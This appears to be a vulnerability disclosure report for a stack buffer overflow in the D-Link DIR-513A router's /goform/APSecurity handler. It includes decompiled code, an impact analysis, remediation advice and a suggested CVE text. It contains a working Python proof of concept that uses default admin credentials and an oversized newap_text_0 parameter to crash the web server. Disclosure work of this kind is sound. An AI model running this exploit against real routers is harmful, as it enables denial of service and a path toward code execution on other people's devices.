



### 1. Vulnerability Summary

* **Vulnerability Type:** Stack-based Buffer Overflow (CWE-121)
* **Affected Component:** Router Web Management Interface (GoAhead Web Server)
* **Affected Endpoint:** `/goform/APSecurity` (handled by the `Security` function, which subsequently calls `AccessPolicyHandle`)
* **Vulnerable Parameter:** `newap_text_0` (Triggered when `ssidIndex=0` and `apselect_0=1`)
* **Prerequisite:** Authentication Required (Post-Auth)
* **Affected Product & Firmware Version:** D-Link DIR-513A (Hardware Rev: A1, Firmware Version: FW1.10.00TW, bin: DIR513AA1_FW1.10.00TW_20141029.bin)

### 2. Detailed Vulnerability Description

A critical stack-based buffer overflow vulnerability exists in the backend handler responsible for saving wireless security and access policy settings. The vulnerability is triggered through the `/goform/APSecurity` endpoint. The application fails to validate the length of user-supplied input before copying it into a fixed-size stack buffer, allowing an attacker to overwrite adjacent memory, including the saved return address.





The vulnerability trigger chain is as follows:

**Step 1: Entry Point & Parameter Validation (`Security` function)**

The HTTP POST request is routed to the `Security` function. The function first extracts and validates mandatory parameters (`ssidIndex` and `security_mode`). If these exist, the code execution continues and eventually calls `AccessPolicyHandle(a1, a2, v6)` at `LABEL_32`, where `v6` is the parsed `ssidIndex` (e.g., `0`).

**Step 2: Data Extraction (`AccessPolicyHandle` function)**

Inside `AccessPolicyHandle`, the program checks if the `apselect_0` parameter is set. If so, it extracts the malicious payload from the `newap_text_0` parameter using `websGetVar` and assigns it to the `v9` pointer (or `__src` in decompiled code).

**C**

```
sprintf(v12, "apselect_%d", a3);
Var = websGetVar(a2, (int)v12, (__int16)"");
if ( Var )
{
  // ...
  sprintf(v12, "newap_text_%d", a3);
  v8 = (const char *)websGetVar(a2, (int)v12, (__int16)"");
  v9 = v8; // Malicious input extracted here
  // ...
```

**Step 3: Fixed-Size Stack Buffer Allocation**

The function allocates a local character array `v13` (or `local_818`) on the stack with a fixed capacity of 2048 bytes.

**C**

```
char v13[2048]; // [sp+38h] [-800h]
```

**Step 4: Dangerous Memory Copy (Taint Sink)**

Without performing any bounds checking (e.g., using `strlen` to verify the size of `v9`), the program copies the user-controlled input into the 2048-byte buffer. Depending on whether NVRAM previously contained data for `AccessControlList0`, it uses either `sprintf` or `strcpy`, both of which are unsafe.

**C**

```
if ( v13[0] )
  sprintf(v13, "%s;%s", v13, v9); // Unsafe concatenation
else
  strcpy(v13, v9);                // Unsafe copy
```

When an attacker submits a `newap_text_0` string longer than 2048 bytes (e.g., 2500 bytes), the copy operation exceeds the buffer's bounds, overwriting the saved Return Address (`$ra`) on the stack.

### 3. Impact Analysis

* **Denial of Service (DoS):** Overwriting the stack with oversized data causes the GoAhead Web Server process to crash via a Segmentation Fault when the function attempts to return, leading to a denial of service for the management interface.
* **Remote Code Execution (RCE):** An authenticated attacker can craft a specific payload utilizing Return-Oriented Programming (ROP) gadgets to hijack the control flow, potentially leading to arbitrary code execution with the privileges of the web server (usually `root`).

### 4. Proof of Concept (PoC)

The following Python script demonstrates the vulnerability by sending a 2500-byte payload to the vulnerable parameter. This safely exceeds the 2048-byte stack buffer, causing the web server process to crash.

**Python**

```
import requests
import time

# 1. Target router IP address
router_ip = "192.168.0.1" 

# The actual URL located via websFormDefine
url = f"http://{router_ip}/goform/APSecurity" 

# 2. Construct request headers (Requires administrator privileges)
headers = {
    "User-Agent": "Mozilla/5.0",
    "Content-Type": "application/x-www-form-urlencoded",
    "Authorization": "Basic YWRtaW46YWRtaW4="  # Base64 encoded admin:admin
}

# 3. Construct the payload to trigger the stack overflow
# The stack buffer size is 2048 bytes; 2500 bytes is enough to overwrite the return address ($ra)
malicious_payload = "A" * 2500 

# 4. Assemble POST form data
data = {
    "ssidIndex": "0", 
    "security_mode": "OPEN", 
    "apselect_0": "1", 
    "newap_text_0": malicious_payload 
}

print(f"[*] Preparing to send the stack overflow payload...")
print(f"[*] Target URL: {url}")
print(f"[*] Payload length: {len(malicious_payload)} bytes")

try:
    start_time = time.time()
    response = requests.post(url, data=data, headers=headers, timeout=5)
    print(f"[-] Request completed. HTTP Status Code: {response.status_code}")
except requests.exceptions.ReadTimeout:
    print("\n[+] Trigger Successful! (ReadTimeout)")
    print("[+] The server is unresponsive. The Web process was flooded with the oversized data and crashed (DoS)!")
except requests.exceptions.ConnectionError:
    print("\n[+] Trigger Successful! (ConnectionError)")
    print("[+] The remote server forcefully terminated the connection. The GoAhead process died from a Segmentation Fault!")
except Exception as e:
    print(f"\n[!] An unexpected error occurred: {e}")
```

### 5. Remediation Recommendations

1. **Implement Length Validation:** Check the length of the user input (`v9`) using `strlen` before performing any string operations. Discard the input if it exceeds the maximum expected length.
2. **Use Safe String Functions:** Replace `strcpy` and `sprintf` with bounds-checking alternatives like `strncpy` and `snprintf`. Ensure the size parameter passed to these functions matches the actual capacity of the destination buffer minus one (`sizeof(v13) - 1`) to guarantee null-termination.

### 6. Suggested CVE Description

> A stack-based buffer overflow vulnerability exists in the web management interface of the D-Link DIR-513A router (Hardware Revision A1, Firmware Version FW1.10.00TW). An authenticated remote attacker can exploit this issue to cause a Denial of Service (DoS) or execute arbitrary code. The vulnerability occurs in the `AccessPolicyHandle` function (accessible via the `/goform/APSecurity` endpoint) where user-supplied data from the `newap_text_*` HTTP parameter is copied into a fixed-size 2048-byte local stack buffer using unsafe string operations (`strcpy` or `sprintf`) without any prior length validation.


### 7.Overcome (Verification Screenshots)


